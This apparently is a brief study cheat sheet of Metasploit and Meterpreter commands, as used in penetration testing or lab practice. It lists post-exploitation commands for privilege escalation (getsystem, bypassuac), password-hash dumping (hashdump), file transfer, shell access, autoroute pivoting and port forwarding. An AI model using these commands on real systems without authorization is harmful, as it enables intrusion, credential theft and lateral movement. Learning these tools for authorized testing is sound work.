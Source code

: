 Without banner,
`msfconsole -q`

after starting of MSF, these are the basic commands,
* `search x`
* `use x`
* `info`
* `options, show advanced options`
* `SET X (e.g. set RHOST 10.10.10.10, set payload x)`

## Meterpreter Commands

After getting meterpreter shell, we'll can issue some commands which will help us in exploiting the machine,
* `background`
* `sessions -l`
* `sessions -i N (N is number)`
* `sysinfo, ifconfig, route, getuid`
* `getsystem (privesc)`
* `bypassuac`
* `download x /root/`
* `upload x C:\\Windows`
* `shell`
* `hashdump`

For auto routing,
`use post/multi/manage/autoroute`
then set the options {SESSIONS, SUBNET} (will work if meterpreter shell shows that user is root)

Check active route table,
`route`

port forwarding,
`portfwd add -L <attacker machine IP> -l listening_port -p 80 -r <host machine IP>`

Meterpreter Proxy and Autoroute Blog,
http://blog.safebuff.com/2017/01/02/Meterpreter-Proxy-and-Route/
